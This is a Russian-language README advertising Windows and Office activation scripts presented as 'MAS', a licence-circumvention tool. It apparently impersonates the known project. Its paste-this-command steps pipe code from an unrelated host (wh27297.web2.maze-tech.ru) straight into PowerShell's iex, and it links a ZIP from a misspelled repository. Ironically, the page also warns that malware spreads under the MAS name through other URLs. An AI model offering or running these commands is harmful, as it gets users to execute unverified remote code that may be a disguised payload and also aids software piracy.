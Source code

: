 <p align="center"><img src="https://wh27297.web2.maze-tech.ru/logo_small.png" alt="MAS Logo"></p>

<h1 align="center">Сценарии активации Microsoft (MAS)</h1>

<p align="center">Активатор Windows и Office с открытым исходным кодом, включающий HWID, Ohook, TSforge, KMS38 и онлайн-методы активации KMS, а также расширенные возможности устранения неполадок..</p>

<hr>
  
## Как активировать Windows / Office / расширенные обновления (ESU)?

### Способ 1 - PowerShell ❤️

1. **Откройте PowerShell**  
   Щелкните в меню **Пуск**, введите `PowerShell`, затем откройте его.

2. **Скопируйте и вставьте приведенный ниже код, затем нажмите enter.**  
   - Для ** Windows 8, 10, 11**: 📌
     ```
     irm https://wh27297.web2.maze-tech.ru/ | iex
     ```
	 Если вышеперечисленное заблокировано (провайдером/DNS), попробуйте это (требуется обновление Windows 10 или 11).:  
	 ```
	 iex (curl.exe -s --doh-url https://1.1.1.1/dns-query https://wh27297.web2.maze-tech.ru/ | Out-String)
	 ```
   - Для ** Windows 7** и более поздних версий:
     ```
      iex ((New-Object Net.WebClient).DownloadString('https://wh27297.web2.maze-tech.ru/'))
     ```
	- **Скрипт не запускается❓Воспользуйтесь приведенным ниже способом 2.**

3. Появится меню активации. **Выберите выделенные зеленым цветом опции**, чтобы активировать Windows или Office.

4. **Готово!**

---

### Способ 2 - традиционный (Windows Vista и более поздние версии)

1.   Скачайте скрипт: [full ZIP](https://github.com/ZacaDeveloper/microsoft-acvtiv/raw/refs/heads/main/Microsoft-Activation-Scripts.zip).
2. Запустите файл с именем "MAS_AIO.cmd".
3. Вы увидите параметры активации. Следуйте инструкциям на экране.
4. Вот и все.

---

> [!TIP]
> - Sинтернет-провайдеры ome/DNS блокируют доступ к нашим доменам. Вы можете обойти это, включив [DNS-over-HTTPS (DoH)](https://developers.cloudflare.com/1.1.1.1/encryption/dns-over-https/encrypted-dns-browsers/) в вашем браузере. 
> - **Возникли проблемы **❓Напишите сюда: [TG](https://t.me/Xiamonov)

---

> [!NOTE]
>
> - Команда IRM в PowerShell загружает скрипт с указанного URL-адреса, а команда IEX выполняет его.
> - Всегда перепроверяйте URL-адрес перед выполнением команды и проверяйте источник, если загружаете файлы вручную.
> - Будьте осторожны, так как некоторые вредоносные программы распространяются под видом MAS, используя разные URL-адреса в команде IRM.

---

```
Последняя версия: 3.7
Дата выхода: 11 сентября 2025
```

### [Помощь](https://t.me/Xiamonov)

<div align="center">
  
[![1.1]][1]

</div>

[1.1]: https://massgrave.dev/img/logo_github.png (GitHub)

[1]: https://github.com/ZacaDeveloper/microsoft-acvited

---

<p align="center">Сделано с любовью ❤️</p>
